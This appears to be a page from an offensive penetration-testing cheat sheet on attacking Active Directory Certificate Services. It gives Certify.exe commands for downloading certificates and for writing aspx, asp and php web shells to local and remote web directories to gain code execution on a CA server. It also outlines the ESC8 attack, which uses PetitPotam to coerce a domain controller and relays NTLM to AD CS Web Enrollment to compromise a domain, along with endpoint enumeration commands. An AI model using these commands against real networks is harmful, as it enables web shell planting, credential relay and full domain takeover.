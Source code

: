 #### 3) Download the certificate

 - Certify.exe download /ca:dc.domain.local\theshire-DC-CA /id:336

## Alternate Method: From ManageCA to RCE on ADCS server

#### 1) Get the current CDP list. Useful to find remote writable shares:

 - Certify.exe writefile /ca:SERVER\ca-name /readonly

#### 2) Write an aspx shell to a local web directory:

 - Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx

#### 3) Write the default asp shell to a local web directory:

 - Certify.exe writefile /ca:SERVER\ca-name /path:c:\inetpub\wwwroot\shell.asp

#### 4) Write a php shell to a remote web directory:

 - Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\share\shell.php /input

# ESC8 - AD CS Relay Attack

### An attacker can trigger a Domain Controller using PetitPotam to NTLM relay credentials to a host of choice. The Domain Controller’s NTLM Credentials can then be relayed to the Active Directory Certificate Services (AD CS) Web Enrollment pages, and a DC certificate can be enrolled. This certificate can then be used to request a TGT (Ticket Granting Ticket) and compromise the entire domain through Pass-The-Ticket.


## Exploitation

#### 1) Enumerate enabled HTTP ADCS Endponts

 - Certify.exe cas

#### 2) The msPKI-Enrollment-Servers property is used by enterprise Certificate Authorities (CAs) to store Certificate Enrollment Service (CES) endpoints.

 - certutil.exe -enrollmentServerURL -config DC01.DOMAIN.LOCAL\DOMAIN-CA

## OR

 - Import-Module PSPKI

 - Get-CertificationAuthority | select Name,Enroll* | Format-List *
